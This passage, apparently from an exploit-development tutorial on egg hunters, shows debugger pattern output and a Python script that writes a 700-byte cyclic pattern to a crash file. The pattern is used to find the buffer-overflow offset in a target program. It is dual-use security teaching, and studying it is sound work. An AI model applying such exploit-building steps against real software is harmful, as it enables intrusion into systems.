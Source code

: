 <p align="center"><img src="/images/basics-of-exploit-development-3-egg-hunters/Pattern_700.PNG"/></p>    
<p align="center"><i>Output of ERC –Pattern c 700.</i></p>

We can now add this into our exploit code either directly from the debugger or from the Pattern_Create_1.txt file in our working directory to give us exploit code that looks something like the following.
```
f = open("crash-2.txt", "wb")  
	  
buf  = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"  
buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"  
buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"  
buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"  
buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"  
buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"  
buf += b"r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"  
buf += b"5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"  
  
f.write(buf)  
f.close()
```